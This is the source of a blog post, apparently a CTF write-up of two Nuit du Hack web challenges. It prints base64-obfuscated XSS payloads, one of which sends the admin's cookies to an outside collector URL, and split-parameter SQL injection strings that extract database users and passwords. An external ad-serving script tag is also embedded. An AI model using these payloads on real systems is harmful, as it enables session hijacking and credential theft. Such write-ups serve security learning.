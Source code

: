 ```yaml
---
layout:     post
title:      "Nuit du Hack CTF"
subtitle:   "Web Writeup"
date:       2017-04-02 09:03:00
author:     "Heeraj"
header-img: "img/post-bg-02.png"
---
```

<script type='text/javascript' src='//eclkmpbn.com/adServe/banners?tid=98477_161886_3&type=footer&size=468x60'></script>
<p>The web challenges were little tricky and it was quite fun.</p>

<h2 class="section-heading">Purple Posse Market</h2>
<p>This is an online market, where it had an <a
href="http://purplepossemarket.quals.nuitduhack.com/contact">contact</a> page. The
page displayed the content "The administrator is currently online". This was the
hint, actually. I got to know this would be an XSS.</p>

<a href="#">
    <img src="{{ site.baseurl }}/img/market.png" alt="Post Sample Image">
</a>

<p>I tried giving sript with redirecting(using document.location) to my website, but
it didn't worked. Then I tried giving img src my website link, I got a get request.</p>

<blockquote>
    &#x3C;img src=&#x22;link&#x22;&#x3E;
</blockquote>

<p>So I thought to give the javascript inside the onerror event handler in img tag.
But Even that didn't worked. So I got to know they would be filtering out
something(May be document ..). And I found that even script was working we could try
using script src.</p>

<blockquote>
&#x3C;script src=&#x22;link&#x22;&#x3E;&#x3C;/script&#x3E;
</blockquote>

<p>I thought to use eval function with base64 content so that even though filter
something they can't get anything from base64. This was my payload for trying
document.location.</p>

<blockquote>
&#x3C;script&#x3E;
var f=document.createElement(&#x27;iframe&#x27;);
f.setAttribute(&#x27;src&#x27;, &#x27;http://requestb.in/1anv7to1&#x27;);
f.setAttribute(&#x27;onload&#x27;, &#x27;eval(atob(&#x22;ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly9yZXF1ZXN0Yi5pbi8xYW52N3RvMSc=&#x22;))&#x27;);
document.body.appendChild(f);
&#x3C;/script&#x3E;
</blockquote>

<p>Next I made a payload for sending the cookie to the server controlled by me.</p>

<blockquote>
&#x3C;script&#x3E;
var f=document.createElement(&#x27;iframe&#x27;);
f.setAttribute(&#x27;src&#x27;, &#x27;http://requestb.in/1anv7to1&#x27;);
f.setAttribute(&#x27;onload&#x27;, &#x27;eval(atob(&#x22;ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly9yZXF1ZXN0Yi5pbi8xYW52N3RvMScrJz9jbWQ9JytidG9hKGRvY3VtZW50LmNvb2tpZSk7&#x22;))&#x27;);
document.body.appendChild(f);
&#x3C;/script&#x3E;
</blockquote>

<p>I already saw there was an link for admin login. So set the cookie and tried
logging in.</p>

<blockquote>
http://purplepossemarket.quals.nuitduhack.com/admin/login/
</blockquote>

<a href="#">
    <img src="{{ site.baseurl }}/img/market1.png" alt="Post Sample Image">
</a>

<p>The IBAN is the flag. IBAN FR14 2004 1010 0505 0001 3M02 606</p>

<h2 class="section-heading">Divide and Rule</h2>

<p>In this website we had a functionality of logging in and functionality to search
in the website. In the search functionality there was an SQL injection, it was pretty
easy to find to out.</p>

<blockquote>
firstname=&lastname=&position=&country=&gender=male'#
</blockquote>

<p>There was SQL injection in 5 parameters which was quite strange. And the further
we can't go with the SQL injection. When I trying to get the database length or
checking order by statement none of them is not working. So I thought they were
filtering particular functions. I spend a lot time over here. Then when once again
read the title of the challenge I got an intuition that as the title name is "divide
and rule" may be for solving the challenge also we have to divide it among the 5
parameters. I found they were not filtering the function but they were actually
checking the length. But the problem now starts, how we can use the 5 argument to
construct SQL query. Thanks to this blog.</p>

<blockquote>
http://www.hexatier.com/shortest-sql-injection-attack/
</blockquote>

<p>Now found the database name and found it was mariadb not mysql.</p>

<blockquote>firstname=' union /*&lastname=*/select
1,/*&position=*/database()/*&country=*/,3,/*&gender=*/4,5,6# </blockquote>

<p>Next thing was problem, we couldn't use information_schema because the length was
more than 80 and we don't have that much length. So I just guessed the tabled as
users and column as login, password. It worked :)</p>

<blockquote>
firstname=' union /*&lastname=*/select
1,2,/*&position=*/password,/*&country=*/4,5,6/*&gender=*/ from users#
</blockquote>

<blockquote>
firstname=' union /*&lastname=*/select
1,2,/*&position=*/login,/*&country=*/4,5,6/*&gender=*/ from users#
</blockquote>

<p>The username was patrick and password #1badgurl(You have to md5 decrpt)</p>

<a href="#">
    <img src="{{ site.baseurl }}/img/divide.png" alt="Post Sample Image">
</a>

<p>Thank you all</p>
